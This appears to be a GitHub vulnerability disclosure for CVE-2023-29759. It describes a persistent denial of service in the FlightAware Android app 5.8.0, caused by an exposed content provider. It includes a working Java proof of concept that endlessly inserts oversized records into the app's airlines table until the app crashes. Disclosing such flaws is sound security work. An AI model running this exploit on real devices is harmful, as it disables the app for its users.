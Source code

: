 # Denial of Service exists in FlightAware（CVE-2023-29759）

Vendor: FlightAware(https://flightaware.com/)

Affected product: FlightAware(com.flightaware.android.liveFlightTracker)

Version: 5.8.0

Download link： https://play.google.com/store/apps/details?id=com.flightaware.android.liveFlightTracker

Description of the vulnerability for use in the CVE：An issue found in FlightAware v.5.8.0 allows unauthorized apps to cause a persistent denial of service by manipulating the database files.

Additional information: The FlightAware application allows unauthorized applications to modify the data in its database files through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes.

poc:

```java
public void attack_flightware() {
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.flightaware.android.liveFlightTracker.FlightAwareContent/airlines");
        while (true) {
            ContentValues contentValues = new ContentValues();
            contentValues.put("url", getRandomString(10240));
            contentValues.put("name_zh", getRandomString(10240));
            contentValues.put("iata", getRandomString(10240));
            contentValues.put("icao", getRandomString(10240));
            contentResolver.insert(uri, contentValues);
        }
    }

```